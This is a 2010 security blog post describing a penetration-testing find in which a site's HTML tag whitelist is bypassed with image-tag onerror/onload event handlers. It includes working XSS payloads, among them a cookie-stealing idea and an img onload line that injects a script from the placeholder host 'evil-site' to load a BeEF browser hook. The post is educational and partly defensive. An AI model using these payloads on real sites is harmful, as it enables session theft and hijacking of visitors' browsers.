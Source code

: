```yaml
---
id: 590
title: 'Exotic XSS: The HTML Image Tag'
date: '2010-04-06T13:45:54-05:00'
author: 'Matt Gardenghi'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=590'
permalink: /2010/exotic-xss-the-html-image-tag
categories:
    - Hacking
tags:
    - Exploits
    - Hacking
    - 'Matt Gardenghi'
    - XSS
---
```


There are the usual XSS tests.  And then there are the fun ones.  This is a story about a more exotic approach to testing XSS....

I was testing a company that had passed all XSS tests from their pentester.  I found that they allowed users to write HTML tags.  Of course they didn't permit &lt;script&gt; tags or &lt;iframe&gt; tags.  (Well, they did allow those, but that was an oops - no server side filtering.)  This company had whitelisted a variety of "safe" tags for use by clients.

That's boring, right?  Heh, thanks to Ron, I had a way to abuse their whitelist.  (I've since found this in Web Application Hackers Handbook, but I seem to have overlooked it at the time I read it.)  Three HTML 4 tags in particular allow javascript to be run from one of the elements and these are: &lt;img&gt;, &lt;object&gt;, and &lt;style&gt;.
<!--more-->
You are really unlikely to see &lt;object&gt; and &lt;style&gt; tags permitted, but &lt;img&gt; tags are a bit more common.  Note: since my work on this site, I've seen RSnake's <a title="page" href="http://ha.ckers.org/xss.html" target="_blank">page</a> and other pages that talk about using &lt;img src="alert('XSS')"&gt;.  That was nice in the past, but none of my current version browsers will execute that.  (Makes me wonder if the whole tracking image thing from emails of yesteryear still works, but that's a rabbit trail.  If you know, post a comment.)  Still, just because I can't source the javascript, doesn't mean I can't execute javascript....  We'll use different HTML 4 elements.

Now, in my scenario, I decided to input &lt;img src="blah.jpg" onerror="alert('XSS')"/&gt; and reloaded the page.  BINGO! I got a popup box.  This also works and has the advantage of a working image: &lt;img src="realimage.png" onload="alert('XSS')"/&gt;.

That's cool.  It's really easy to check that off on your list and say "vulnerable to XSS."  But, can you do anything besides popping boxes?  Doing something would be useful.  I had a question about all this, "will these elements support more than an alert box or is this a useless novelty?"  More tests were in order.

So, then we could replace alert() with document.write() and write the cookie to our server. This swipes cookies and that's better than a popup.  But why stop there?

Why not create a &lt;script&gt; on the page itself?  What's that you say?  &lt;script&gt; isn't on the whitelist?  So, your point?  If your browser creates the &lt;script&gt; locally, it can't be filtered, now can it?

Thanks to Mak (@mak_kolybabi) for giving me some of the tips I needed to get this going in the correct direction.

How about we try this:

&lt;img onload="var s = document.createElement('script'); s.src='http://evil-site/beef/hook/beefmagic.js.php';document.getElementsByTagName('head')[0].appendChild(s);" src="real_image.jpg" /&gt;

We have a image that triggers the onload element.  Now we tell the browser to create a script element.  You may not be able to write &lt;script&gt;, but you are able to write the word "script."  The createElement function tells the browser to create the &lt;script&gt;&lt;/script&gt;.  It's local to the client and the server has no idea.  :-D

Then we give the source element (what else would you use but <a title="BeEF" href="http://www.bindshell.net" target="_blank">BeEF</a>?) and then we place our new element into the page.  Viola! You've just turned a simple &lt;img&gt; tag into stored XSS....

I have noticed that using onload="local_function()," IE8 and FF3.6 have "issues."  Not sure what it is quite yet.

I spent a few moments looking around to see if I could locate websites that allow you to use HTML tags.  From a cursory perspective, Slashdot is safe, so is Digg, and most forums are now using BB Code.  So, how useful is this?  I'd wager it's probably a last resort. If you chained attacks you could potentially use it.  Suppose you bypassed the front line of defense (<a title="like so" href="http://www.skullsecurity.org/blog/?p=560" target="_blank">like so</a>) in a manner that allowed you to write tags, but ran into some sort of whitelist filtering on the server preventing &lt;script&gt; tags.  Now you have a way to create script tags while evading the filter.

We're not done yet....

Now, you might think that all of this is trivial and not very important.  I mean seriously, who allows users to write tags at all?  Let's look forward for a moment.  HTML5 is coming.  According to this<a title="site" href="http://simon.html5.org/html5-elements" target="_blank"> site</a> (and I have to think that they would know), we find this beautiful bit of information: all event handlers must be supported by all elements, or something like that.  And there are a bunch of new event handlers.

In other words, not only do we have access to onload/onerror in every element, we get lots more....  Stored XSS will be everywhere for years.  All these wannabe web guys who implement the cool new whizbang HTML5 as soon as it ships, will be running huge risks unless they carefully filter out event handlers.  (At least they need to prevent users from implementing event handlers.)  We've seen how well this has worked in the past, so my hopes for reasonably secure implementation are exactly nonexistent.

And if you have a site that you want to allow users to write tags, try switching to BB Code.  It's safer.  Well, in 10 minutes of testing I didn't see how to bypass it as it doesn't support anything.  :-D

Currently, I am developing a page that will test a browser's support of HTML 5 action events.  If you have suggestions or tips, send them my way.  I'm currently muddling through my coding.

Oh and just think about what would happen if someone accidentally on purpose managed to rewrite the &lt;img&gt; element on www.digg.com or www.google.com.  Would anyone ever notice?  How long would it take to find it?  Seriously, looking for a compromise, who'd look at the official logo for the infection?  Enjoy your nightmares people.

Cheers.